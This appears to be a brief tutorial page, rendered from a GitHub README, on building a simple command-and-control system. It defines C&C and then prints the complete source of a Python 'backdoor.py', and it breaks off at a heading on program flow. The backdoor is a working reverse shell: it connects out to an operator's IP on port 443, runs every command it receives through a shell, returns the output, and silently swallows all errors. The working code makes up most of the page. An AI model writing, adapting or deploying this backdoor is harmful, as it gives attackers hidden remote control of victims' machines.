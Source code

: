 ## Definition and Objective

A **Command and Control (C&C)** is a software system designed to control a client from a server. It allows an operator to execute malware or other commands on remote machines. This document explains the basic implementation of a simple C&C project.

### Simple C&C Project

**GitHub Link**: [Simple C&C Project](https://github.com/Arc4he/Command-And-Control/)

### Simple Backdoor

In the GitHub project, there is a file called `backdoor.py` with the following code:

```python
#!/usr/bin/env python3

import socket
import subprocess   

def run_command(command):
    try:
        return subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT).decode("cp850").strip()
    except subprocess.CalledProcessError as e:
        return f"Error executing command: {e.output.decode('cp850').strip()}"
    except Exception as e:
        return f"Unexpected error: {str(e)}"

if __name__ == '__main__':
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client_socket:
            client_socket.connect(("192.168.1.X", 443)) # Your IP
            
            while True:
                command = client_socket.recv(1024).decode().strip()
                if not command:
                    break
                
                command_output = run_command(command)
                client_socket.send(b"\n" + command_output.encode("cp850") + b"\n")
    except ConnectionRefusedError:
        pass
    except KeyboardInterrupt:
        pass
    except:
        pass
```

## Initial Program Flow
